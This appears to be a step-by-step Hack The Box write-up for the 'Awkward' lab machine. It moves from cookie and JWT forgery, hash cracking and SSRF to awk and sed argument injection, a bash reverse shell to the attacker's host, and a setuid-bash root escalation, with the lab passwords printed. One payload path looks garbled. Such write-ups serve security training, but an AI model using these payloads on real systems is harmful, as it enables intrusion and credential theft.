 ```yaml
---
title: "HTB Awkward Machine"
excerpt: "Learn how to complete Awkward Machine on HTB."
categories:
  - HTB
tags:
  - HTB
  - HTB Awkward Machine
  - Awkward
  - Medium

toc: true
---
```


ping 10.10.11.185
whatweb 10.10.11.185

echo "10.10.11.185 hat-valley.htb" >> /etc/hosts

nmap -p- --min-rate 10000 hat-valley.htb

ffuf -c -w '/root/Downloads/Tools/subdomains-top1million-5000.txt' -u http://hat-valley.htb -H "Host: FUZZ.hat-valley.htb" --fs 132 -> get store

echo "10.10.11.185 store.hat-valley.htb" >> /etc/hosts
access store.hat-valley.htb -> need password
ignore for while

access webpage -> page source -> js/app.js
/api/get_all, /api/login, /api/staff_details, /api/store_status

on hat-valley.htb/hr, login page
on cookie editor, change "token=guest" to "token=admin"

enter admin page
access hat-valley.htb/api/staff-details -> get error
on cookie editor, remove "token" -> get accounts with password
copy passwords and access crack station -> try to crack hashes

christopher.jones:chris123
come bakc to hat-valley.htb/hr page and login on chris
on cookie editor, copy JWT token

crack jwt (https://github.com/Sjord/jwtcrack/blob/master/jwt2john.py)
python3 jwt2john.py <token found> > jwt-hash.txt
john -w=../rockyou.txt jwt-hash.txt
jwt-hash:123beany123

ssrf
http://hat-valley.htb/dashboard/api/store-status?url='http://hat-valley.htb'

ffuf -c -w ../4-digits-0000-9999.txt -u 'http://hat-valley.htb/api/store-status?url="http://hat-valley.htb:FUZZ"' -fs 0 -> get ports 80, 3002 and 8080

port 3002 - api info
on /api/all-leave, awk command is vulnerable

go to jwt.io
with secret "123beany123", make other jwt token change the username to:
"/' /etc/passwd '" -> Bean and Christine
curl http://hat-valley.htb/api/all-leave --header "Cookie: token=<generated cookie>"

"/' /home/bean/.bashrc '" -> backup script

"/' /home/bean/Documents/backup_home.sh '" -> get bean_backup_final.tar.gz

"/' /home/bean/Documents/backup/bean_backup_final.tar.gz '"
curl http://hat-valley.htb/api/all-leave --header "Cookie: token=<generated cookie>" --output bean_backup_final.zip

extract bean_backup_final.zip, extract bean_backup_final.tar.gz
cd bean_backup_final

cat .config/xpad/content-DS1ZS1
bean.hill:014mrbeanrules!#P
ssh bean@hat-valley.htb
type password
get user.txt

sudo -l -> nothing
cat /etc/nginx/conf.d/.htpasswd
admin:$apr1$lfvrwhqi$hd49MbBX3WNluMezyjWls1 -> password isn't crackble - use bean password

access store.hat-valley.htb -> login admin:014mrbeanrules!#P

rce (https://gtfobins.github.io/gtfobins/sed/)
nano /tmp/surprise.sh
------------------------------------------------------------
#!/bin/bash
bash -i >& /dev/tcp/<kali ip>/<port> 0>&1
------------------------------------------------------------
chmod +x /tmp/surprise.sh

access store and add one item in cart
go to cart page -> don't reload the page
cd /cart
ls

rm -rf <number name file>
nano <same number name file>
------------------------------------------------------------
***Hat Valley Cart***
item_id=1' -e "1e /tmp/surprise.sh" /tmp/surprise.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90
------------------------------------------------------------

nc -nvlp <port>

start burp suite intecepting -> access site again on cart page -> remove product
on burp, replace in "item" parameter:
item=1'+-e+"1e+/tmp/surprise.sh"+/tmp/shsurpriseell.sh+'&user=<your user number>&action=delete_item
send and get reverse www-data shell

run pspy64
inotifywait is monitoring
echo "test" >> leave_request.csv -> test the monitoring

get root (https://gtfobins.github.io/gtfobins/mail/)
nano /tmp/root.sh
------------------------------------------------------------
#!/bin/bash
chmod +s /bin/bash
------------------------------------------------------------
chmod +x /tmp/root.sh

echo '" --exec="\!/tmp/root.sh"' >> leave_requests.csv
get root.txt
